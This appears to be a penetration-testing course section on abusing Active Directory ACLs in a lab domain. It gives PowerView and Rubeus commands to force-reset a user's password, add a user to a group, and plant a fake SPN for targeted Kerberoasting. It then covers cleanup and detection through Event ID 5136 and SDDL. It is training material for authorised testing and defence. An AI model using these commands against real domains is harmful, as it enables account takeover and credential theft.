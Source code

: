 ## Abusing ACLs

First we will need to use PowerShell to authenticate as the user whose rights we want to use, we can skip this step if we are already authenticated as that user. To do this, we can create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0).

### Creating a PSCredential Object
```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force
PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword) 
```

Next, we must create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user `damundsen`.

### Creating a SecureString Object
```powershell-session
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
```

Finally, we'll use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password. We can do the same from a Linux attack host using a tool such as `pth-net`, which is part of the [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit).

### Changing the User's Password
```powershell-session
PS C:\htb> cd C:\Tools\
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbos
```

We can do a similar process with a user that have generic all rights to add a user to a group.

### Creating a SecureString Object Using the User
```powershell-session
PS C:\htb> $SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword) 
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group. We can first confirm that our user is not a member of the target group. This could also be done from a Linux host using the `pth-toolkit`.

### Adding a User to a Group
```powershell-session
PS C:\htb> Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members
```

```powershell-session
PS C:\htb> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

### Confirm the User was Added to the Group
```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

With a GenericAll right we can not only force change the password, but also perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN.

We can use [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) to create the fake SPN. We could use the tool [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

### Creating a Fake SPN
```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

If this worked, we should be able to Kerberoast the user using any number of methods and obtain the hash for offline cracking.

### Kerberoasting with Rubeus
```powershell-session
PS C:\htb> .\Rubeus.exe kerberoast /user:adunn /nowrap
```

Now we can attempt to crack the hash offline.

## Cleanup

In terms of cleanup, there are a few things we need to do:

1. Remove any fake SPN we created on a user
2. Remove any user from groups he was added to
3. Set the password for the users we changed it for to its original value (if we know it) or have our client set it/alert the user

It's important to do it in a revers order from our attack path, so we don't lose any rights for cleanup.

### Removing the Fake SPN from an Account
```powershell-session
PS C:\htb> Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

### Removing a User from a Group
```powershell-session
PS C:\htb> Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose
```

### Confirming the User has Removed from the Group
```powershell-session
PS C:\htb> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

We would still need to include the modifications in the final report.

Sometimes, an ACL attack chain may be too time-consuming or potentially destructive, so we may prefer to enumerate the path to present our client with enough evidence to understand the issue and perform remediation.

## Detection and Remediation

A few recommendations around ACLs include:

1. `Auditing for and removing dangerous ACLs`

Organizations should have regular AD audits performed but also train internal staff to run tools such as BloodHound and identify potentially dangerous ACLs that can be removed.

2. `Monitor group membership`

Visibility into important groups is paramount. All high-impact groups in the domain should be monitored to alert IT staff of changes that could be indicative of an ACL attack chain.

3. `Audit and monitor for ACL changes`

Enabling the [Advanced Security Audit Policy](https://docs.microsoft.com/en-us/archive/blogs/canitpro/step-by-step-enabling-advanced-security-audit-policy-via-ds-access) can help in detecting unwanted changes, especially [Event ID 5136: A directory service object was modified](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5136) which would indicate that the domain object was modified, which could be indicative of an ACL attack. If we look at the event log after modifying the ACL of the domain object, we will see some event ID `5136` created:

### Viewing Event ID 5136
![[event5136.webp]]

If we check out the `Details` tab, we can see that the pertinent information is written in [Security Descriptor Definition Language (SDDL)](https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language) which is not human readable.

### Viewing Associated SDDL
![[event5136_sddl.webp]]

We can use the [ConvertFrom-SddlString cmdlet](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/convertfrom-sddlstring?view=powershell-7.2) to convert this to a readable format.

### Converting the SDL String into a Readable Format
```powershell-session
PS C:\htb> ConvertFrom-SddlString "<Attribute Value>"
```

If we choose to filter on the `DiscretionaryAcl` property, we can see that the modification was likely giving the `mrb3n` user `GenericWrite` privileges over the domain object itself, which could be indicative of an attack attempt.

```powershell-session
PS C:\htb> ConvertFrom-SddlString "<Attribute Value>" |select -ExpandProperty DiscretionaryAcl
```

There are many tools out there that can be used to help monitor AD. These tools, when used in conjunction with a highly mature AD secure posture, and combined with built-in tools such as the various ways we can monitor for and alert on events in Active Directory, can help to detect these types of attacks and prevent them from going any further.